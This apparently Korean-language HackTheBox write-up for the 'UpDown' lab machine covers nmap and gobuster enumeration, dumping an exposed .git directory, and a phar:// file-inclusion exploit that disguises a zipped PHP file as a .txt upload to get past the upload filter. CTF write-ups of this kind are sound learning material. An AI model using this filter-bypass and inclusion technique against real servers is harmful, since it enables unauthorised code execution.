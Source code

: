```yaml
---
layout: post
title: HackTheBox UpDown
subtitle: UpDown WriteUp
author: g3rm
categories: HTB
banner:
  image: /assets/images/banners/home.gif
  opacity: 0.618
  background: "#000"
  heading_style: "font-size: 4.25em; font-weight: bold;"
  subheading_style: "color: gold"
tags:
  - HTB
  - WriteUp
  - Linux
sidebar:
---
```



## Summary
![](assets/images/posts/2025-03-17-UpDown/1a290611f444e0d251233ed971a4f9f7_MD5.jpeg)
## Target - 10.129.227.227
### Nmap
```bash
nmap -sC -sV -Pn -p- 10.129.227.227 -o UpDown_AllPort
```

### WEB
```bash
# 호스트 등록
echo "10.129.227.227 siteisup.htb" | sudo tee -a /etc/hosts

# 디렉토리 탐색
gobuster dir -u siteisup.htb -w /usr/share/wordlists/dirb/common.txt
gobuster dir -u http://siteisup.htb/dev -w /usr/share/wordlists/dirb/common.txt

# 서브도메인 탐색
gobuster vhost -u http://siteisup.htb -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt --append-domain

# 서브도메인 호스트 등록
echo "10.129.227.227 dev.siteisup.htb" | sudo tee -a /etc/hosts

# git dump
git-dumper http://siteisup.htb/dev/.git dev

# config 보기
cat .htaccess
```

![](/assets/images/posts/2025-03-17-UpDown/284ba3fd6ad877528a4f3670a2f6ce5b_MD5.jpeg)
![](/assets/images/posts/2025-03-17-UpDown/3dad85a3644415a5b33e41cbffc9aec7_MD5.jpeg)

![](/assets/images/posts/2025-03-17-UpDown/a41302bb81f42bed44f2386fe38e06c2_MD5.jpeg)
![](/assets/images/posts/2025-03-17-UpDown/caba1c0c482717b28220a2be17b2c742_MD5.jpeg)

![](/assets/images/posts/2025-03-17-UpDown/fb818fef54497e9853afd3ea110a3218_MD5.jpeg)![](/assets/images/posts/2025-03-17-UpDown/3081fbcce96767472ac559c5c7d2bcd1_MD5.jpeg)

### phar:// Exploit
```bash
# 파일 필터링 로직 및 upload 경로 확인
cat checker.php

echo "<?php phpinfo(); ?>" > info.php
zip info.zip info.php
mv info.zip info.txt

http://dev.siteisup.htb/?page=phar://uploads/a8425178a20f8d05a34c79bbc3be7307/info.txt/info
```
